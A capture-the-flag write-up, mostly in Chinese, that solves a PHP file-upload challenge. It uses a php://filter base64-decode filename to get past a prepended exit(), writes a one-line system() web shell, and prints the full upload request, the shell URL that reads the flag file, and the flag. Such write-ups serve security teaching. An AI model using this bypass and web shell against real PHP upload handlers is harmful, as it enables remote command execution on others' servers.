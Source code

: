 # 题目描述

It's as easy as it looks, isn't it?

# 解决方案

首页源码如下：

```php
<?php
error_reporting(0);
if (isset($_POST['submit'])) {
    $file_name = urldecode($_FILES['file']['name']);
    $tmp_path = $_FILES['file']['tmp_name'];
    if(strpos($file_name, ".jpg") == false){
        echo "Invalid file name";
        exit(1);
    }
    $content = file_get_contents($tmp_path);
    $all_content = '<?php exit(0);'. $content . '?>';
    $handle = fopen($file_name, "w");
    fwrite($handle, $all_content);
    fclose($handle);
    echo "Done.";
}
else{
    show_source(__FILE__);
}
?>
```

这里需要绕过exit，不然注入的代码无法执行，绕过是借助php伪协议进行的，文件名设置为：php://filter/write=convert.base64-decode/resource=shell.jpg.php，即借助base64-decode去除<、?、(、)等特殊符号，然后写入注入php代码的base64编码值即可，文件名需要urlencode后发送，上传请求体如下：

```
POST / HTTP/1.1
Host: challenge.nahamcon.com:30484
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 459
Content-Type: multipart/form-data; boundary=0b2ce7c036cf945ba1b0a527fac43170

--0b2ce7c036cf945ba1b0a527fac43170
Content-Disposition: form-data; name="submit"

1
--0b2ce7c036cf945ba1b0a527fac43170
Content-Disposition: form-data; name="file"; filename="%70%68%70%3a%2f%2f%66%69%6c%74%65%72%2f%77%72%69%74%65%3d%63%6f%6e%76%65%72%74%2e%62%61%73%65%36%34%2d%64%65%63%6f%64%65%2f%72%65%73%6f%75%72%63%65%3d%73%68%65%6c%6c%2e%6a%70%67%2e%70%68%70"

PD9waHAgc3lzdGVtKCRfR0VUWydzaGVsbCddKTs/Pg==

--0b2ce7c036cf945ba1b0a527fac43170—
```

上面的base64内容解码后为：`<?php system($_GET['shell']);?>`

上传后访问如下地址：

http://challenge.nahamcon.com:30483/shell.jpg.php?shell=cat%20/home/user/flag.txt

拿到flag：flag{ab5f69d6cc412345387a0ca3a4700398}
